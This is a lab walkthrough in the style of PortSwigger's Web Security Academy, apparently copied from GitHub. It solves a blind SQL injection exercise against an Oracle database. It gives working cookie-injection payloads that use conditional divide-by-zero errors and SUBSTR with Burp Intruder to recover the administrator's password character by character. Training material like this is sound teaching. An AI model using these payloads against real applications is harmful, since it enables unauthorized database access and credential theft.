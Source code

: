# Lab: Blind SQL injection with conditional errors

### PRACTITIONER

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

```
Hint
```
This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

### Solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie. For simplicity, let's say the original value of the cookie is <code>TrackingId=xyz</code>.

2. Modify the <code>TrackingId</code> cookie, appending a single quotation mark to it: <code>TrackingId=xyz'</code>. Verify that an error message is received.

3. Now change it to two quotation marks: <code>TrackingId=xyz''</code>. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

4. You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: <code>TrackingId=xyz'||(SELECT '')||'</code>. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: <code>TrackingId=xyz'||(SELECT '' FROM dual)||'</code>. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all <code>SELECT</code> statements to explicitly specify a table name.

5. Now that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name: <code>TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'</code>. This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

6. As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the <code>users</code> table exists, send the following query: <code>TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'</code>. As this query does not return an error, you can infer that this table does exist. Note that the <code>WHERE ROWNUM = 1</code> condition is important here to prevent the query from returning more than one row, which would break our concatenation.

7. You can also exploit this behavior to test conditions. First, submit the following query: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'</code>. Verify that an error message is received.

8. Now change it to: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'</code>. Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The <code>CASE</code> statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions <code>1=1</code> and <code>1=2</code>, and an error is received when the condition is <code>true</code>.

9. You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username <code>administrator</code> exists: <code>TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. Verify that the condition is true (the error is received), confirming that there is a user called <code>administrator</code>.

10. The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. Then send: <code>TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)&gt;3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. And so on. You can do this manually using <a href="/burp/documentation/desktop/tools/repeater">Burp Repeater</a>, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use <a href="/burp/documentation/desktop/tools/intruder">Burp Intruder</a>. Send the request you are working on to Burp Intruder, using the context menu.

13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.

14. In the Positions tab, change the value of the cookie to: <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>. This uses the <code>SUBSTR()</code> function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

15. Place payload position markers around the final <code>a</code> character in the cookie value. To do this, select just the <code>a</code>, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers): <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>

16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

18. Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.

19. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: <code>TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'</code>

20. Launch the modified attack, review the results, and note the character at the second offset.

21. Continue this process testing offset 3, 4, and so on, until you have the whole password.

22. In your browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.
